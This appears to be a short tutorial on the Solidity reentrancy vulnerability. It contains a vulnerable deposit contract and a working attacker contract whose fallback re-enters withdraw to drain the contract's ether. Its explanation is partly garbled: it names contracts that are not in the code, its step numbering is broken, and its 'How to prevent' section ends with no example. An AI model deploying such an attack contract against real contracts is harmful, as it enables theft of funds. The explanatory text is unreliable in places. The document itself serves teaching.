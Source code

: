 ## What is Reentrancy vulnerability
Reentrancy vulnerability is a type of vulnerability that occurs when a contract calls an external contract in a way that allows the external contract to call back into the original contract before the original contract has finished executing. This can lead to unexpected and potentially malicious behavior.
```solidity
contract DepositFunds {
    mapping(address => uint) public balances;

    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }

    function withdraw() public {
        uint bal = balances[msg.sender];
        require(bal > 0);

        (bool sent, ) = msg.sender.call{value: bal}("");
        require(sent, "Failed to send Ether");

        balances[msg.sender] = 0;
    }
}
```
The problem is the withdraw function updates balance after transfered successfully to sender. Thefore, if an attacker were to create a malicious version of the IERC20 contract that calls the withdraw function of the Fund contract as part of its own execution, it could potentially create an infinite loop in this step (transfering step).
Attacker's contract will look like:
```solidity
contract Attack {
    DepositFunds public depositFunds;

    constructor(address _depositFundsAddress) {
        depositFunds = DepositFunds(_depositFundsAddress);
    }

    // Fallback is called when DepositFunds sends Ether to this contract.
    fallback() external payable {
        if (address(depositFunds).balance >= 1 ether) {
            depositFunds.withdraw();
        }
    }

    function attack() external payable {
        require(msg.value >= 1 ether);
        depositFunds.deposit{value: 1 ether}();
        depositFunds.withdraw();
    }


}
```

Here is a summary of how an attacker could use a malicious contract to create an infinite loop in the DepositFunds contract:
1. The attacker creates a malicious contract that calls the withdraw function of the DepositFunds contract as part of its own execution.
2. The attacker calls the deposit function of the DepositFunds contract, sending some Ether to the contract.
The attacker calls the withdraw function of the DepositFunds contract using the malicious contract.
3. The DepositFunds contract calls the call function of the malicious contract, sending the Ether to the attacker.
4. The malicious contract calls the withdraw function of the DepositFunds contract again as part of its own execution.
5. This process repeats indefinitely, creating an infinite loop.

## How to prevent this type of attack
To prevent this type of attack, it is important to carefully consider the potential interactions between contracts and to ensure that any external contract calls are properly guarded against reentrancy. This can be done by marking this process is handing.
For example:

## Reference
https://hackernoon.com/hack-solidity-reentrancy-attack